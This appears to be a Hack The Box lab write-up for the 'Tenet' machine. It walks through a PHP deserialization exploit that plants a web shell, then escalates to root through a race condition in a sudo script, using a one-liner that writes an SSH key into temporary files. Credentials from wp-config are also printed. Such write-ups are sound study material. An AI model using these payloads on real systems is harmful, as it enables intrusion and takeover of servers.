 ```yaml
---
layout: post
title: Tenet
published: true
---
```


**Tenet is a medium machine from Hack The Box.**

### Enumeration

A nmap scan reveals only 2 ports open on the box: 22 and 80. It looks like the web server is running WordPress 5.6. Good to know.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While I take a look at the web page, I run a wpscan in the background to enumerate any possible vulnerable plugins or themes.

`wpscan --url http://tenet.htb -e --api-token <api-token> -o wpscan.txt`

I found a few vulnerabilities but they all seem to be dead ends.

![Pasted image 20210610104151](https://user-images.githubusercontent.com/60187707/121790099-9088f500-cba1-11eb-993b-c5966a39c4ef.png)

Posts on the site reveal 2 users, `neil` and `protagonist`, which `wpscan` also found. 
A comment on a post refers to a file, `sator.php`, and its backup.

![image](https://user-images.githubusercontent.com/60187707/121790142-fe352100-cba1-11eb-89b8-3224d4ef9dc5.png)

After navigating to `/sator.php` in the browser, it looks the page is still up.

![image](https://user-images.githubusercontent.com/60187707/121790159-26248480-cba2-11eb-9028-897e05066999.png)

### Exploitation

Navigating to `/sator.php.bak` initiates a download of the file.
```

class DatabaseExport
{
	public $user_file = 'users.txt'; ## Variables?
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()        ## Concatenation\/
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';          ## $objects
$databaseupdate = unserialize($input);  ## UNSERIALIZES INPUT
echo serialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

PHP is a bittt over my head at the moment, but after some [reading](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) and some [more reading](https://notsosecure.com/remote-code-execution-via-php-unserialize/), I think I know enough to exploit it.

The PHP code accepts user input in the form of a parameter named `arepo` and then unserializes that input. There is a vulnerability in the way that PHP magic methods like `__destruct()` handle serialized objects that can lead to RCE.
So, if I craft a serialized object that contains a payload, `sator.php` will execute my payload when it unserializes my input.

```
<?php

class DatabaseExport 
{
	public $user_file = 'tron.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$pwn = new DatabaseExport;
echo (serialize($pwn));

?>

```
Running this PHP script will output a serialized object in which I have redefined the variables `$user_file` and `$data`. When `sator.php` executes, it will create a new file named `tron.php` that contains a parameter I can interact with for RCE.

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

Place the serialized object into the `arepo` parameter:
`10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}`

After some finagling with URL encoding via burp, I get a reverse shell on the machine.

![Pasted image 20210612153735](https://user-images.githubusercontent.com/60187707/121790353-3e959e80-cba4-11eb-9e3e-1730cd348c9f.png)

On as `www-data`:

![Pasted image 20210612154138](https://user-images.githubusercontent.com/60187707/121790360-46554300-cba4-11eb-949e-2dc4a5f0fc59.png)

### Privilege Escalation

Not much to do as `www-data`, but `neil` is also a user on this box, so I start looking for credentials of some kind.
I know that `wp-config` usually has credentials, so I go digging.

Found some credentials for `neil`. 
```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

SSH in as `neil` with his password, and now I can look around some more.

`sudo -l`

![Pasted image 20210612154801](https://user-images.githubusercontent.com/60187707/121790443-017ddc00-cba5-11eb-97ae-d94db40f8bfc.png)

There is a script that `neil` can run with `sudo`.

```
#!/bin/bash

checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi
}
checkFile() {
	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}
addKey() {
	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"

addKey
checkAdded
}
```

The script writes an SSH key into a file with a randomly generated name in the format `/tmp/ssh-XXXXXXXX`, then uses `cat` to append that key to `/root/.ssh/authorized_keys`. There appears to be a race condition here, as the `$tmpName` file exists during the `checkFile` process, before it's written to `authorized_keys`, so if I am constantly writing  my own SSH key to any file in the `/tmp` directory that fits the format `/tmp/ssh*`, I should be able to overwrite the root user's key. 

`while true; do echo "<id_rsa.pub>" | tee /tmp/ssh* > dev/null; done &`

This one-liner will do just that. I run it in the background while I run `sudo /usr/local/bin/enableSSH.sh`. 

After a couple of tries, I can SSH in as `root` with no password.

![Pasted image 20210612170356](https://user-images.githubusercontent.com/60187707/121816382-e82a6d80-cc40-11eb-915c-8dc8e1258c65.png)




